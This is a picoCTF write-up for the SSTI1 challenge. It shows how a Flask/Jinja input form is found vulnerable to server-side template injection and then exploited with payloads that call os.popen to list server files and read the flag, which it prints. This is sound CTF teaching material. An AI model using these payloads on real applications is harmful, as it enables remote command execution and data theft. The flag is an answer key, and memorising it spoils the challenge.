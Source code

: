 # SSTI1 picoCTF Write-Up

## Challenge Description
This challenge presents a web application with a simple input form that appears vulnerable to Server-Side Template Injection (SSTI).  
**Hint:** _Try testing template expressions to see how the server processes them._

To solve this challenge, we will explore SSTI vulnerabilities by testing various template expressions and command execution.

## Solution Steps

1. **Initial SSTI Testing**  
   The webpage contains a simple input form:
   ```html
   <input name="content" id="announce">
   <button type="submit">Ok</button>
   ```
   First, we test for basic template injection using a mathematical expression:
   ```python
   {{7*7}}
   ```
   The server responds with `49`, confirming the template injection vulnerability.

2. **Directory Enumeration**  
   After confirming the SSTI vulnerability, we use a more complex payload to list files on the server:
   ```python
   {{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
   ```
   Output reveals the server's file structure:
   ```
   .: 
   __pycache__
   app.py
   flag
   requirements.txt
   ./__pycache__:
   app.cpython-38.pyc
   ```

3. **Flag Extraction**  
   Finally, we read the flag file using another SSTI payload:
   ```python
   {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
   ```

## Flag
```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}
```